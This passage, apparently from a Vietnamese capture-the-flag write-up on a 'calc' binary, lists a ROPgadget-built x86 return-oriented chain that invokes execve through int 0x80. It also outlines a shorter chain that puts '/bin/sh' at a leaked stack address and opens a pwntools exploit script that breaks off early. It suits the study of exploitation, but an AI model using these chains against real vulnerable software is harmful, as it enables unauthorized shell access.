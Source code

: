 ```
	p += pack('<I', 0x080ec068) # @ .data + 8
	p += pack('<I', 0x080550d0) # xor eax, eax ; ret
	p += pack('<I', 0x0809b30d) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0x080481d1) # pop ebx ; ret
	p += pack('<I', 0x080ec060) # @ .data
	p += pack('<I', 0x080701d1) # pop ecx ; pop ebx ; ret
	p += pack('<I', 0x080ec068) # @ .data + 8
	p += pack('<I', 0x080ec060) # padding without overwrite ebx
	p += pack('<I', 0x080701aa) # pop edx ; ret
	p += pack('<I', 0x080ec068) # @ .data + 8
	p += pack('<I', 0x080550d0) # xor eax, eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x0807cb7f) # inc eax ; ret
	p += pack('<I', 0x08049a21) # int 0x80
```
ROP này mình dùng tool ROPgadget viết ra! Nó đơn giản và dài chỉ việc chèn vào stack và thực thi là được .

Cái rop thứ 2 ngắn hơn nhưng yêu cầu đòi hỏi hơn nhiều : 
```
ROP 
    0x0805c34b :   pop eax ; ret
    0x0000000b       
    0x080701d0 :   pop edx ; pop ecx ; pop ebx ; ret
    0x00000000
    0x00000000
    address_str
    c :   int 0x80
    #address_str = "/bin/sh" 
    0x6e69622f
    0x0068732f
``` 
ROP này yêu cầu chúng ta phải đưa *"/bin/sh"* vào pre_ebp và đưa địa chỉ của pre_ebp vào vị trí address_str trong stack mẫu trên.
Để leak được pre_ebp chúng ta dựa vào stack offset mà chúng ta đã vẽ ở phía trên.

### Exploit : 
```
from pwn import *

BIN="./calc"

addrs = ['+361','+362','+363','+364','+365','+366','+367','+368','+369']

# ROP 
#     0x0805c34b :   pop eax ; ret
#     0x0000000b       
#     0x080701d0 :   pop edx ; pop ecx ; pop ebx ; ret
#     0x00000000
#     0x00000000
#     address_str
#     c :   int 0x80
# address_str = "/bin/sh" 
# 0x6e69622f
# 0x0068732f
```
